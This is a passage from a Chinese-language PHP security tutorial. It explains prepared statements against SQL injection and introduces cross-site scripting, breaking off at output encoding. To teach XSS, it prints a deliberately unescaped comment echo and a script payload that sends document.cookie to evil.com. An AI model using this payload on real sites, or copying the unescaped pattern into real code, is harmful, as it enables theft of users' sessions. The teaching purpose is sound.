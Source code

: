 - **準備 (Prepare)**: 先將包含佔位符 (如 `?` 或 `:name`) 的 SQL 查詢結構發送到資料庫進行編譯和解析。
- **綁定 (Bind)**: 然後將用戶輸入作為參數綁定到這些佔位符上。
- **執行 (Execute)**: 最後執行查詢。

在整個過程中，用戶輸入永遠只被當作 **資料** 處理，而絕不會被當作 SQL 語法的一部分來執行，從而從根本上杜絕了 SQL 注入的可能。

**範例 (使用 PDO)**:

```php
<?php
$userId = $_GET['id'];

// 1. 準備帶有佔位符的 SQL 語句
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");

// 2. 綁定參數
$stmt->bindParam(':id', $userId, PDO::PARAM_INT);

// 3. 執行
$stmt->execute();

$user = $stmt->fetch();
?>
```

### 2. 跨站腳本攻擊 (Cross-Site Scripting, XSS)

#### XSS 攻擊原理

XSS 攻擊發生在當應用程式將來自使用者的不可信輸入 **未經處理地直接輸出** 到 HTML 頁面中時。攻擊者可以注入惡意的 HTML 或 JavaScript 腳本，這些腳本將在其他用戶的瀏覽器中執行，從而竊取用戶的 Cookie、Session、發起惡意請求或篡改頁面內容。

**範例 (不安全的程式碼)**:

```php
<?php
// 從用戶評論中獲取內容
$comment = $_POST['comment'];

// 未經處理，直接輸出到頁面
echo "<div>" . $comment . "</div>";
?>
```

如果一個正常用戶提交的評論是 `Hello, world!`，頁面會正常顯示。
但如果攻擊者提交的評論是惡意腳本：

```html
<script>document.location='http://evil.com/steal_cookie.php?cookie=' + document.cookie;</script>
```

當其他用戶瀏覽這個頁面時，這段腳本將在他們的瀏覽器中執行，並將他們的 Cookie 發送到攻擊者的伺服器。

#### 防範措施：輸出編碼 (Output Encoding)

防範 XSS 的核心原則是：**對所有來自用戶的、將要輸出到 HTML 的內容進行適當的編碼 (Encoding)**。
